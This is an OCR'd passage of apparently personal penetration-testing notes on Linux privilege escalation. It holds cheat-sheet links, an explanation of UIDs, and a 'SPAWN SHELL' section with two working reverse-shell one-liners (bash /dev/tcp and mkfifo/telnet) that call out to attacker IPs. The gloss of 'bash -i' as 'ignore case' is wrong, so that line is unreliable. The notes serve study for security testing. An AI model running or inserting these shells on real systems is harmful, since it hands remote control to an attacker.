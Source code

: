 Linux Privilege Escalation


https://gtfobins.github.io/
https://chmod-calculator.com/

## Cheat sheets
https://0xsp.com/offensive/offensive-cheatsheet
https://cheatography.com/blacklist/cheat-sheets/linux-windows-privilege-escalation/
https://github.com/rmusser01/Infosec_Reference/blob/master/Draft/Cheat%20sheets%20reference%20pages%20Checklists%20-/Linux/cheat%20sheet%20Basic%20Linux%20Privilege%20Escalation.txt
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

## **USER IDs**

**Real, Effective, & Saved UID/GID**

A user’s effective ID is normally equal to their real ID, however when executing a process as another user, the effective ID is set to that user’s

real ID.

The effective ID is used in most access control decisions to verify a user, and commands such as whoami use the effective ID.

Finally, the saved ID is used to ensure that SUID processes can temporarily switch a user’s effective ID back to their real ID and back again without losing track of the original effective ID.

**Print real and effective user / group IDs:**

# id

uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)

groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)

* * *

## **SPAWN SHELL**
https://sentrywhale.com/documentation/reverse-shell
https://medium.com/@pentest_it/ncat-cheatsheet-ddc5f07d8533

### Simple bash command

> bash -i >& /dev/tcp/10.10.14.10/3333 0>&1

-i: Ignore case distinctions

### Reverse shell in FreeBSD

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 172.18.0.2 8080 > /tmp/f

### Nc.traditional
